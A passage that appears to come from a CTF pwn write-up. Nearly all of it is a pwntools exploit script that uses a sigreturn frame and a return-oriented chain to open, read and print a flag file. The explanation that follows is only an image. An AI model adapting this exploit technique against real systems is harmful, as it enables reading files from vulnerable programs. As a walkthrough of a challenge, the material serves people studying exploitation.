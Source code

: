 ```plain
leak('rdi_ret',rdi_ret)
rsi_ret=libcbase+0x00000000000202f8
leak('rsi_ret',rsi_ret)
rdx_ret=libcbase+0x0000000000001b92
leak('rdx_ret',rdx_ret)

buf_addr=bss+0x400

sigFrame=SigreturnFrame()
sigFrame.rdi=0
sigFrame.rip=read_addr
sigFrame.rsi=buf_addr
sigFrame.rdx=0x200
sigFrame.rsp=buf_addr
pl=str(sigFrame)[8:]


p.sendlineafter('Please input magic message: ',pl)
gdb.attach(p)
pause()

flag=buf_addr+0x98


pl1=p64(rdi_ret)+p64(flag)+p64(rsi_ret)+p64(0)+p64(open_addr) #open
pl1+=p64(rdi_ret)+p64(3)+p64(rsi_ret)+p64(bss+0x200)+p64(rdx_ret)+p64(0x100)+p64(read_addr) #read
pl1+=p64(rdi_ret)+p64(1)+p64(rsi_ret)+p64(bss+0x200)+p64(rdx_ret)+p64(0x100)+p64(write_addr) #write
pl1+='flag\00'

s(pl1)

p.interactive()
```

解释一下 exp：

[![](assets/1701612132-e0c46e9cf4cfb371f6ec8a5696c917a8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230818001715-8765ecd0-3d19-1.png)
